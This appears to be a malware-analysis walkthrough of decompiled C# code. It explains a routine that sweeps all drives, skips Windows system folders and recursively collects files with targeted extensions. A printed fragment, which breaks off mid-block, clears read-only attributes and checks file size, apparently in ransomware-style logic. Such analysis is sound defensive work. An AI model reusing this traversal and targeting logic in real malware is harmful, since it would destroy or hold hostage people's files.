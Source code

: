 The `ALL_DRIVES` function appears to perform an operation on all available drives on the computer while excluding certain specific folders on the system drive. Let's break down what each part of the code is doing, with references to specific lines:

1.  **Getting All Available Drives**:
    
    -   `DriveInfo[] drives = DriveInfo.GetDrives();`: This line retrieves an array of all the drives available on the computer (like C:, D:, etc.).
2.  **Iterating Over Each Drive**:
    
    -   `for (int i = 0; i < drives.Length; i++)`: This `for` loop iterates through each drive.
3.  **Checking for the System Drive**:
    
    -   `string pathRoot = Path.GetPathRoot(Environment.SystemDirectory);`: Determines the root path of the system drive (usually C:).
    -   `if (drive.ToString() == pathRoot)`: Checks if the current drive being processed is the system drive.
4.  **Excluding Specific Folders on the System Drive**:
    
    -   A list of folder names is defined, including common system directories like "windows", "program files", etc.
    -   `string[] array = new string[] { ... };`: Defines the folders to exclude.
    -   The code loops through all directories on the system drive and skips the ones listed in this array.
5.  **Operation on Non-Excluded Folders**:
    
    -   For each non-excluded folder, it starts a task using `Task.Factory.StartNew`.
    -   `Program.RECURSIVE_DIRECTORY_LOOK(SubDirectory);`: This method, not defined in the provided code snippet, seems to perform an operation recursively on each sub-directory.
6.  **Operation on Other Drives**:
    
    -   If the drive is not the system drive, a task is started to perform `Program.RECURSIVE_DIRECTORY_LOOK(drive.ToString());` on the entire drive.
7.  **Waiting for the Task to Complete**:
    
    -   `task.Wait();`: This command blocks execution until the current task is completed.

## RECURSIVE_DIRECTORY_LOOK function

```csharp
string[] files = Directory.GetFiles(path);
bool flag = true;
string[] array = files;
for (int i = 0; i < array.Length; i++)
{
	string file = array[i];
	try
	{
		string fileName = Path.GetFileName(file);
		if (!Program.EXCEPTIONAL_FILE(fileName))
		{
			if (Array.Exists<string>(Program.TARGETED_EXTENSIONS, (string E) => E == Path.GetExtension(file).ToLower()) && fileName != Program.MESSAGE_FILE)
			{
				FileInfo fileInfo = new FileInfo(file);
				if (fileInfo.IsReadOnly)
				{
					try
					{
						fileInfo.Attributes = FileAttributes.Normal;
					}
					catch
					{
					}
				}
				if (fileInfo.Length < 524288L)
				{
```
